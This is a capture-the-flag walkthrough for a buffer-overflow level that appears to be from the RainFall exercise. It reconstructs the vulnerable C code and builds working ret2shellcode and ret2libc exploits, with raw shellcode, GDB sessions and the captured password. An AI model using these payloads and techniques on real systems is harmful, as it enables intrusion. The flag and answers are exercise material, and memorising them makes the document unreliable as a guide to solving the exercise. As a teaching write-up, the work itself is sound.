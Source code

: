 # Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `p` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *p+105 # Breaking before leave
Breakpoint 1 at 0x804853d

(gdb) r # Run the program
Starting program: /home/user/level2/level2


Breakpoint 1, 0x0804853d in p ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xbffff728 - 0xbffff6c0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `-0x4c(%ebp),%eax`. Since our buffer is located at `ebp - 76`, we only have to write 76 bytes before reaching `ebp`.
> In this case we don't have to take the bytes between `esp` and `ebp` into account because the offset of our buffer is relative to `ebp`. `ebp` is the base pointer, whom's value is set at the beginning of the function. So the offset of our buffer will always be the same. Whereas `esp` is the stack pointer, whom's value changes during the execution of the program.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There's different ways to solve this challenge, we'll see two of them. First with a ret2shellcode and then the ret2libc way.

### Ret2Shellcode
Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

To redirect the execution, after the buffer overflow, we need an address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1]
```

The padding is 80 - 21 because the shellcode is 21 bytes long.

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Libc
Check the [level1's walkthrough](../level1/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Ealier, I mentionned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of ret + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\x08\x04\x85\x3e" + "\xb7\xe6\xb0\x60" + "\x08\x04\x83\xd0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
